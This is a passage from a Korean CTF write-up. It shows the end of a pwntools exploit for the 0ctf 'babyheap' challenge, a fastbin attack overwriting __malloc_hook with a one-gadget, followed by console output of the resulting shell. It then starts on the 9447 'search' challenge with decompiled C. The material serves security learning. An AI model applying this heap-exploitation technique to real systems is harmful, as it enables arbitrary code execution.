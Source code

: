 ```python
add(0x110)
add(0x60) #4
add(0x60) #5

free(5)
free(4)
add(0x60)
fill(4,0x78,"\x00"*0x68 + p64(0x71) + p64(malloc_hook-35))
add(0x60)
add(0x60)
fill(6,35,"\x00"*3 + p64(one)*4)

r("Command: ")
s(1)
r("Size: ")
s(10)
pause()

t.interactive()
->
bskim@bstime:~$ python babyheap2.py 
[+] Starting local process './0ctfbabyheap': pid 8663
[*] libc ==> 0x7fb39d994000
[*] Paused (press any to continue)
[*] Switching to interactive mode
$ id
uid=1000(bskim) gid=1000(bskim)
```

leak만 되면 다음은 기본 fastbin attack이다. 

<br>

# 9447-Search

하 리버싱이 너무 딸려서 갱장히 어려웠다..

2가지 메뉴 밖에 없다. 단어 찾기, 단어 넣기 (글자?)

```c
void sub_400AD0()
{
  int v0; // ebp
  void *v1; // r12
  __int64 i; // rbx
  char v3; // [rsp+0h] [rbp-38h]

  puts("Enter the word size:");
  v0 = input_num();
  if ( (unsigned int)(v0 - 1) > 0xFFFD )
    puts_exit("Invalid size");
  puts("Enter the word:");
  v1 = malloc(v0);
  fread_((__int64)v1, v0, 0);
  for ( i = qword_6020B8; i; i = *(_QWORD *)(i + 32) )
  {
    if ( **(_BYTE **)(i + 16) )
    {
      if ( *(_DWORD *)(i + 8) == v0 && !memcmp(*(const void **)i, v1, v0) )
      {
        __printf_chk(1LL, "Found %d: ", *(unsigned int *)(i + 24));
        fwrite(*(const void **)(i + 16), 1uLL, *(signed int *)(i + 24), stdout);
        putchar(10);
        puts("Delete this sentence (y/n)?");
```